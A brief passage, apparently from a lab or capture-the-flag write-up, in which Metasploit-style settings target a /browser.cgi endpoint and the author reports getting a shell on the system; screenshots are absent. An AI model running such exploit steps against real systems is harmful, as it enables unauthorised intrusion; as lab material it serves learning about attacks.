 ![alt text](</assets/img/Pasted image 20250525145232.png>)
![alt text](</assets/img/Pasted image 20250525145252.png>)


```bash
set targeturi /browser.cgi
set rhost
set lhost eth1
run 
```

Now we got a shell over the system
![alt text](</assets/img/Pasted image 20250525145310.png>)
